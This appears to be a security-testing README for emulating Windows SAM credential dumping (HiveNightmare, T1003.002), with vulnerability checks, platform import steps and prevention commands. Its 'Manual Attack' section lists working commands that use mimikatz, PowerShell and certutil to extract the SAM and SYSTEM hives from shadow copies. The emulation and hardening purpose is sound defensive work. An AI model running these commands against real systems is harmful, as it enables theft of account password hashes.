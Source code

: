 # T1003.002 - OS Credential Dumping: Security Account Manager

On July 19, 2021, @jonasLyk noticed the SAM file is readable by all users. Upon further investigation, a number of Windows versions allowed any user to read the SAM file.

## Check if system is vulnerable
As a non-administrative user, run the following in a command prompt
- ```whoami /groups```
- ```sc query vss```
- ```vssadmin list shadows```
- ```icacls %windir%\system32\config\sam```

A vulnerable system will report ```BUILTIN\Users:(I)(RX)```

## Import the Compound Action
1. Click Threat Manager - Migrate Threats
2. Under "Import Threat" click “Choose File” and select the JSON file you downloaded from GitHub
3. Click Import and OK when complete
4. Click Threat Manager - Threat Catalog
5. Find the imported Compound Action and click the tag icon 
6. Tag the MITRE ATT&CK Technique for the Compound Action

## Attack
1. Create a new campaign
2. Select the Compound Action for T1003.002
3. Note: you may need to change the HarddiskVolumeShadowCopy# to the backup available on the disk. You can identify that by using the ```vssadmin list shadows``` command.

## Manual Attack
- ```mimikatz "lsadump::sam /system:\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\system32\config\system /sam:\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\system32\config\\sam"```
- ```powershell foreach($i in @("SYSTEM","SAM")){[System.IO.File]::Copy("\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\system32\config\$i", "$i")}```
- ```certutil -encode \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\system32\config\SYSTEM SYSTEM.encoded```
- ```certutil -decode SYSTEM.encoded SYSTEM.hive```
- ```certutil -encode \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\system32\config\SAM SAM.encoded```
- ```certutil -decode SAM.encoded SAM.hive```

## Prevention
Restrict access to sam, system, and security files and remove VSS shadow copies. On a command prompt with administrative privileges:
- ```icacls %windir%\system32\config\sam /remove "Users"```
- ```icacls %windir%\system32\config\security /remove "Users"```
- ```icacls %windir%\system32\config\system /remove "Users"```
- ```vssadmin delete shadows /for=c: /Quiet```
- ```vssadmin list shadows```

## References
- https://twitter.com/jonasLyk/status/1417205166172950531
- https://www.kb.cert.org/vuls/id/506989
- https://doublepulsar.com/hivenightmare-aka-serioussam-anybody-can-read-the-registry-in-windows-10-7a871c465fa5
- https://github.com/GossiTheDog/HiveNightmare